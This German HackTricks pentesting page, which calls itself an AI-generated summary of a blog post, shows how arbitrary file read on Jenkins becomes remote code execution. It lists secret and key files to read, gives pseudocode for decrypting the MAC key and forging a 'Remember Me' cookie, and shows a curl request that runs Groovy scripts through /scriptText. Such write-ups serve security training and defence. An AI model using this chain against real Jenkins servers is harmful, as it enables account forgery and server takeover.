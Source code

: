 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Schwachstelle in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies missbraucht wird, um RCE zu erhalten, indem ein lokales Datei-Lesen ausgenutzt wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

* **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
* **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
* **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

* Greife auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
* **Benutzername**
* **Benutzer-Seed**
* **Zeitstempel**
* **Passworthash**

**Geheimschlüssel-Extraktion**

* Extrahiere kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
* **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
* **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
* **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

*   **Berechne die Token-Ablaufzeit:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Fügt eine Stunde zur aktuellen Zeit hinzu
```
{% endcode %}
*   **Verknüpfe Daten für das Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC-Schlüsselentschlüsselung**

*   **Entschlüssele die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertiere den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüssele die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

*   **Berechne HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Berechne HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac)  // Konvertiere das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

*   **Generiere das endgültige Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64-codiert die Cookie-Daten
```
{% endcode %}

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

* **Abrufen von CSRF- und Sitzungstoken:**
* Mache eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
* Erfasse `JSESSIONID` aus der Antwort, die zusammen mit dem Remember-Me-Cookie verwendet wird.

**Befehlsausführungsanfrage**

*   **Sende eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Das bereitgestellte Beispiel für den curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
